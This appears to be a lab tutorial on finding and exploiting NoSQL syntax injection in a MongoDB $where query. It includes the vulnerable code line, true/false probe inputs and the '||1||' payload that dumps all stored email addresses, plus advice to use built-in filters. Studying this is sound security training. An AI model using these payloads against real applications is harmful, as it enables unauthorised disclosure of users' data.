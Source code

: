 ## Finding Syntax Injection
Now that we have covered Operator Injection, let's take a look at a Syntax Injection example. A Python application is running to allow you to receive the email address of any username that is provided. To use the application, authenticate via SSH using `ssh syntax@10.10.110.21` along with the credentials below:
	![](Pasted%20image%2020241215145055.png)

Once authenticated, you can provide a username as input. Let's start by simply providing `admin`:
	![](Pasted%20image%2020241215145219.png)
We can start to test for Syntax Injection by simply injecting a `'` character, which will result in the error seen in the response below:

```shell
syntax@10.10.110.21's password: 
Please provide the username to receive their email:admin'    !!!
Traceback (most recent call last):
  File "/home/syntax/script.py", line 17, in <module>
    for x in mycol.find({"$where": "this.username == '" + username + "'"}):
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1248, in next
    if len(self.__data) or self._refresh():
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1165, in _refresh
    self.__send_message(q)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/cursor.py", line 1053, in __send_message
    operation, self._unpack_response, address=self.__address
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1272, in _run_operation
    retryable=isinstance(operation, message._Query),
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1371, in _retryable_read
    return func(session, server, sock_info, read_pref)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/mongo_client.py", line 1264, in _cmd
    sock_info, operation, read_preference, self._event_listeners, unpack_res
  File "/usr/local/lib/python3.6/dist-packages/pymongo/server.py", line 134, in run_operation
    _check_command_response(first, sock_info.max_wire_version)
  File "/usr/local/lib/python3.6/dist-packages/pymongo/helpers.py", line 180, in _check_command_response
    raise OperationFailure(errmsg, code, response, max_wire_version)
pymongo.errors.OperationFailure: Failed to call method, full error: {'ok': 0.0, 'errmsg': 'Failed to call method', 'code': 1, 'codeName': 'InternalError'}
Connection to 10.10.110.21 closed.
```

The following line in the error message shows us that there is Syntax Injection:

```shell
for x in mycol.find({"$where": "this.username == '" + username + "'"}):
```

We can see that the username variable is directly concatenated to the query string and that a JavaScript function is being executed in the find command, allowing us to inject into the syntax. In this case, we have verbose error messages to give us an indication that injection is possible. However, even without verbose error messages, we could test for Syntax Injection by providing both a false and true condition and seeing that the output differs, as shown in the example below:

```shell
ssh syntax@10.10.110.21
syntax@10.10.110.21's password: 
Please provide the username to receive their email:admin' && 0 && 'x  
Connection to 10.10.110.21 closed.

ssh syntax@10.10.110.21
syntax@10.10.110.21's password: 
Please provide the username to receive their email:admin' && 1 && 'x
admin@nosql.int
Connection to 10.10.110.21 closed.
```

## Exploiting Syntax Injection
Now that we have confirmed Syntax Injection, we can leverage this injection point to dump all email addresses. To do this, we want to ensure that the testing statement of the condition always evaluates to true. As we are injecting into the JavaScript, we can use the payload of  `'||1||'`. Let's use this to disclose sensitive information:

```shell
ssh syntax@10.10.110.21
syntax@10.10.110.21's password: 
Please provide the username to receive their email:admin'||1||'
admin@nosql.int
pcollins@nosql.int
jsmith@nosql.int
[...]
Connection to 10.10.110.21 closed.
```

![](Pasted%20image%2020241215150154.png)

### The Exception to the Rule
It is worth noting that for Syntax Injection to occur, the developer has to create custom JavaScript queries. The same function could be performed using the built-in filter functions where `['username' : username]` would return the same result but not be vulnerable to injection. As such, Syntax Injection is rare to find, as it means that the developers are not using the built-in functions and filters. While some complex queries might require direct JavaScript, it is always recommended to avoid this to prevent Syntax Injection. The example shown above is for MongoDB; for other NoSQL solutions, similar Syntax Injection cases may exist, but the actual syntax will be different.